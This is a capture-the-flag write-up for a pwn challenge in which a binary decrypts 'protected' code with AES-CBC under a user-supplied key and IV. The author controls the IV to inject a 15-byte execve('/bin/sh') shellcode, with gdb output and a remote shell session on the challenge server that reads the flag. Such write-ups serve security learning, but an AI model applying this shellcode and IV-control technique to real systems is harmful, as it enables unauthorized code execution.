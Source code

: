 ## pwn / c0py_pr073c710n (200+11p, 26 solves)

>Software piracy is a crime!
>Don’t steal our hard work.
>
>nc 104.154.90.175 54509 
>[download](cat_flag.exe)
>
>HINT: 2.19-18+deb8u4

cat_flag.exe is x86-64 ELF binary with some code inside (marked as protected() routine) encrypted using AES-128-CBC. Mechanism is quite simple: binary asks for license key, then decrypts and executes protected() routine.

```c
int main()
{
  // ...
  char licenseKey[48]; // [sp+0h] [bp-60h]@  
  // ...
  
  printf("License Key: ", 0LL);
  strcpy(&licenseKey[17], 'guYoiGpBNgJT9Rb8');
  fgets(licenseKey, 33, stdin);
  ERR_load_crypto_strings(licenseKey, 33LL);
  OPENSSL_add_all_algorithms_noconf();
  OPENSSL_config(0LL);
  // {...}
  if ( mprotect(page_addr, page_size, 7) == -1 )
  {
    result = -1;
  }
  else
  {
    puts("Decrypting protected code...");
    // ... (evaluating encrypted code offset)
    decrypted_len = decrypt(&protected, protectedLen, licenseKey, &licenseKey[17], &protected);
    // ... (noping rest of payload)
    if ( mprotect(page_addr, page_size, 5) == -1 )
    {
      result = -1;
    }
    else
    {
      puts("Finished decryption!");
      puts("Starting protected code...");
      protected();
      puts("Bye!");
      result = 0;
    }
  }
  return result;
}
```

License key is 33-chars string, which is interpreted as 16-bytes AES key and 16-bytes IV with one not-important char in the middle. If we look [how CBC mode works](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Block_Chaining_.28CBC.29), we can notice one interesting thing:

First decrypted block is just xor'ed with IV, which means that if we have control over IV, we can "decrypt" this block to everything we want. Just get some (random) key, "decrypt" ciphertext using it and xor the result with code you want to execute.

Unfortunately, using this method, we can write only one block, which means that our shellcode can be only 16 bytes length. 
Binary doesn't have any reference to system() inside, no code which could be helpful in spawning shell. It was difficult to place *"/bin/sh"* and *execve()* syscall in 16 bytes. Fortunately, libc contains string *"/bin/sh"* inside.

    (gdb) set environment LD_PRELOAD=libc2.19-18+deb8u4/libc-2.19.so libc2.19-18+deb8u4/ld-2.19.so
    ...
    (gdb) find &puts, -999999, "/bin/sh"
    0x7ffff7b8f6e8

I've also noticed that *puts()* leaves address in RCX register, which points to the part of *write()* routine from libc. 
With this address, we can easily evaluate *"/bin/sh"* position. Call to *puts()* can also be found just before *protected()* execution.

    (gdb) x/i $rip
    => 0x400c06 <main+33>:  callq  0x400900 <puts@plt>
    (gdb) x/d $rcx
    0x0:    Cannot access memory at address 0x0
    (gdb) ni
    Welcome to cat_flag.exe v0.3
    0x0000000000400c0b in main ()
    (gdb) x/d $rcx
    0x7ffff7b07e20 <write+16>:  -268354232

Finally, this 0xF-bytes shellcode was created:

    0:   31 f6                xor    esi,esi            /* argv NULL */
    2:   48 8d b9 b8 78 08 00 lea    rdi, [rcx+0x878b8] /* cmd "/bin/sh" */
    9:   b0 3b                mov    al,0x3b            /* execve */ 
    b:   31 d2                xor    edx,edx            /* env NULL */
    d:   0f 05                syscall                   /* FIRE! */

...and using this [exploit](exploit.py) we successfully got access to shell and were able to read the flag.

PS.: Shell had also small trap: some commands were modified and didn't produce any output (e.g. ls wasn't working)

    [+] Opening connection to 104.154.90.175 on port 54509: Done
    [*] Switching to interactive mode
    $ ls
    $ pwd
    /home/ctf
    $ find
    .
    ./ynetd
    ./.bashrc
    ./.bash_logout
    ./flag.txt
    ./cat_flag.exe
    ./.profile
    $ cat /home/ctf/flag.txt
    hxp{The unauthorized reproduction or distribution of this copyrighted work is illegal. Criminal copyright infringement, including infringement without monetary gain, is investigated by the FBI and is punishable by up to five years in federal prison and a fine of $250,000.}$  

